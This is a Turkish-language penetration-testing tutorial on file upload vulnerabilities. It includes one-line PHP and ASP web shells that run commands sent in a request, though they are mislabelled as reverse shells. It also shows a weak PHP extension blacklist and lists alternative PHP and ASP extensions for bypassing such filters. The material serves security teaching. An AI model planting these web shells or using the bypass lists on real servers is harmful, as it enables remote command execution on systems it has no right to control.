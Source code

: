 # Dosya Yükleme Saldırıları
Dosya yükleme zafiyetlerinin en temel nedeni, yüklenen dosyaların türü ve içeriğinin yeterli düzeyde doğrulanmamasıdır. Bu durumda saldırganlar herhangi bir dosya tipini yükleyebilir ve backend sunucuda zararlı kod çalıştırabilir. Bazı uygulamalar yalnızca belirli dosya türlerine izin verir. Ancak bu durumda bile zafiyetler söz konusu olabilir. Örneğin:
- Dosya yükleme üzerinden XSS veya XXE gibi farklı açıkların tetiklenmesi.
- Arka uç sunucuya yönelik DoS (Denial of Service) saldırılarının gerçekleştirilmesi.

# Dosya Yükleme Zafiyetlerinin Sömürüsü
Zafiyetin istismar edilebilmesi için ilk adım, uygulamanın hangi dil ve platform üzerinde çalıştığının tespit edilmesidir. zararlı script’ler, yalnızca sunucunun çalıştığı programlama diliyle uyumlu olduğunda kullanılabilir. Genellikle bu tespit, sayfa uzantıları üzerinden yapılabilir (.php, .asp, .aspx vb.). Ancak bazı modern framework’lerde web routes nedeniyle bu uzantılar gizlenmiş olabilir. Uygulama PHP tabanlı olduğunu varsayalım, dosya yükleme fonksiyonunun php uzantılı dosyaları kabul edip etmediğini test etmek için minimal bir reverse shell yüklenebilir:
```php
<?=`$_GET[0]`?> // 0 parametresini URL'den alır ve değeri işletim sistemi komutu olarak çalıştırır
```

Veya ASP için aşağıdaki reverse shell kullanılabilir:
```c#
<% eval request('cmd') %>
```

## İstemci Tarafı Dosya Uzantısı Kontrolü
İstemci tarafında çalışan her kod bizim kontrolümüzdedir. Web sunucusu front-end kodunu gönderir, ancak kod tarayıcıda çalıştırılır. Eğer back-end tarafında doğrulama yoksa, teorik olarak herhangi bir dosya türünü yükleyebiliriz.

## Back-end Tarafında Dosya Uzantısı Doğrulama
Genellikle iki yaygın yöntem vardır:
- blacklist ve whitelist kontrolü.

Ayrıca, doğrulama dosya tipini veya içerik tipini kontrol edebilir. En zayıf doğrulama yöntemi, sadece dosya uzantısını kara listeye karşı kontrol etmektir. 

### Blacklist
Örnek PHP kodu:
```php
$fileName = basename($_FILES["uploadFile"]["name"]);
$extension = pathinfo($fileName, PATHINFO_EXTENSION);
$blacklist = array('php', 'php7', 'phps');

if (in_array($extension, $blacklist)) {
    echo "File type not allowed";
    die();
}
```

Bu kod, dosya uzantısını ($extension) alır ve black list uzantıları ile ($blacklist) karşılaştırır. Eğer listede varsa yükleme engellenir.

PHP bütün dosya uzantıları:
```
php
.php3
.php4
.php5
.php7
.pht
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
```

ASP dosya uzantıları:
```
.asp
.aspx
.config
.cer # (IIS <= 7.5)
.asa # (IIS <= 7.5)
shell.aspx;1.jpg # (IIS < 7.0)
shell.soap
```




